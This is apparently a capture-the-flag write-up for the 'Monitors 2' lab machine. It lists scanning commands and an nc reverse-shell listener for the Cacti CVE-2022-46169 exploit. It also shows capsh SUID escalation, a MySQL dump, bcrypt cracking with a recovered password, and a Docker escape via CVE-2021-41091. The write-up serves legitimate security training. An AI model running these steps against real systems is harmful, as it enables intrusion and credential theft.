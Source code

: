 # Monitors 2

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command “sudo nmap -sS --min-rate 10000 -p- monitors2.htb”

![image](images/Monitors2/Imagen1.png)

Once the open ports are known, It began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: “sudo nmap -sS -sV -O -oN moni-tors2ServiceVersions p22,80 -Pn monitors2.htb”

![image](images/Monitors2/Imagen2.png)

### Port Scan Results

![image](images/Monitors2/PortScan.PNG)

### HTTP Enumeration

The first thing done is to manually visit the web. Landing page is a login page where it is found that web server is running Cacti software version 1.2.22

![image](images/Monitors2/Imagen3.png)

With this information, I elaborate a dictionary with the default cacti directories (found on cacti github https://github.com/Cacti/cacti.git ) and run a directory scan using gobuster to find which of those pages I have access to.

![image](images/Monitors2/Imagen4.png)

Simultaneously software version vulnerabilities are search and a very interesting Un-authenticated RCE vulnerability is found (CVE 2022-46169).

## Initial Access – Unauthenticated RCE

**Vulnerability Explanation**: Cacti software version 1.2.22 is prone to an unauthenticated RCE vulnerability. The problem resides in “remote_agent.php” as it can be accessed without authen-tication and the way it checks if the remote host is authorized is by looking the entries at the “poller” table and verifying that there is a entry where the hostname is equal to the remote host-name (obtained from the IP address (previously retrieved by get_client_addr function) using gethostbyaddr function). It is possible to bypass this authentication method by using the HTTP header “Forwarded-For” and introducing the server IP address (“https://nvd.nist.gov/vuln/detail/CVE-2022-46169”). 

**Vulnerability Fix**: Update the software to version 1.2.23 or greater.

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, the steps taken were the following:

  • Download exploit PoC from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.
      
  •	Setup a listener in port 444 with “nc -lvp 444”
      
  •	Run the exploit using the command “python cactiRCE.py –url http://monitorstwo.htb --ip 10.10.14.9 --port 444”
      
![image](images/Monitors2/Imagen5.png)
    
  •	Receiving the shell in port 444.
      
![image](images/Monitors2/Imagen6.png)

**Proof of Concept Code**: no modifications were made to the original exploit PoC obtained from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.

## Docker Privilege escalation & Docker Escape.

Once a shell as www-data is obtained, it is clear that there is a docker running. It is clear because of:

      •	Existence of the files “/.docker.env” and “/entrypoint.sh”

      •	Hostname is “50bca5e748b0”

      •	We find ourselves in a restricted environment with limited commands, no “ifcon-fig”, no “ping”.
 
![image](images/Monitors2/Imagen7.png)

To escalate privileges, find command will be used to search for SUID binaries in the container.

![image](images/Monitors2/Imagen8.png)

As shown in the previous picture, capsh is found. This binary is very useful at privilege escalation stage (https://gtfobins.github.io/gtfobins/capsh/) as it is possible to spawn a privilege bash using “./capsh --gid=0 --uid=0 --".

![image](images/Monitors2/Imagen9.png)

Now that root shell is obtained inside the container, the next step is to escape outside the container to the host.

For this step, it is vital the “/entrypoint.sh” file. 

![image](images/Monitors2/Imagen10.png)

As it is shown in the highlighted area, there are cleartext credentials for MySQL user “root”. 

Trying to use mysql tool inside the container is very slow so it is decided to dump the database and to inspecting manually on the attacking machine. For this, mysqldump tool is used “mysqldump -h db -u root -p --all-databases > /tmp/dumping.sql”.

![image](images/Monitors2/Imagen11.png)

To transfer the file to the attacking machine, I simply locate the file on the web server root, make it public changing its permissions to 777 and download it with “wget http://monitorstwo.htb/dumping.sql”.

Once on the attacking machine, inspecting the contents, password hashes are found for three different users: guest, admin and marcus.

![image](images/Monitors2/Imagen12.png)

![imagen](images/Monitors2/hashes.PNG)

“Admin” and “Marcus” hashes are “bcrypt $2*$, Blowfish” type of hash.

Next step is to try and crack these hashes. For this, hashcat will be used and specifi-cally “.\hashcat -m 3200 -a 0 hash.txt rockyou.txt”.

![image](images/Monitors2/Imagen13.png)

As seen in Illustration 13 recovered password for user “marcus” is “funkymonkey”. Using these credentials via ssh on the host lets us escape the docker environment and access as a regular user on the host “monitorstwo”.

![image](images/Monitors2/Imagen14.png)

Once inside the host, an interesting mail file is found “/var/mail/marcus”.

![image](images/Monitors2/Imagen15.png)

Mail contains a message from the Administrator to everybody where it talks about some vulnerabilities that need to be patched in the system. Checking software ver-sions, it is possible to confirm that Docker software version is vulnerable to “CVE-2021-41091”

## Privilege Escalation – CVE-2021-41091

**Vulnerability Explanation**: There is a vulnerability in Moby Docker Engine where the data directo-ry “/var/lib/docker” contains subdirectories with insufficiently restricted permissions. As a result, an unprivileged user on the host, can traverse directory contents and execute programs. If the UID of the user on the Host, collided with the file owner or group inside the container, the unpriv-ileged user of the host could discover, read, and modify those files (https://github.com/kube-tarian/sigrun/issues/100) (https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html). 
Taking into account the latter, if a binary is owned by root in the container, it will be owned also by root once accessed from outside the container. A copy of “/bin/bash” will be moved inside the container, SUID will be set to this copy by root, and then it will be accessed and executed from outside the container allowing user “marcus” to gain privileges and become root.

**Vulnerability Fix**: Update Moby to v20.10.9.

**Severity**: Medium

**Steps to reproduce the attack**:

• Identify the host path of files within the container. This can be done by extracting the “upperdir” mount option of the container mount point 
      ```
      sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
      ```
      
![image](images/Monitors2/Imagen16.png)

• Check that from the host with a non-privileged user it is possible to interact with the container file system. A file “/tmp/checking” will be created inside the container and accessed from the host via “/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/tmp/checking”

![image](images/Monitors2/Imagen17.png)

![image](images/Monitors2/Imagen18.png)

• Copy bash binary from the host to the container.

![image](images/Monitors2/Imagen19.png)

![image](images/Monitors2/Imagen20.png)

• Change the owner to root:root and set permissions to 4755 (SUID) to /tmp/bash from inside the container as root.

![image](images/Monitors2/Imagen21.png)

• Check permissions of the file from the host as “marcus”.

![image](images/Monitors2/Imagen22.png)

• Elevate privileges executing the binary with “-p” flag from outside the container.

![image](images/Monitors2/Imagen23.png)

### Post-Expoitation

**System Proof Screenshot**

![image](images/Monitors2/Imagen24.png)

![image](images/Monitors2/Imagen25.png)





      






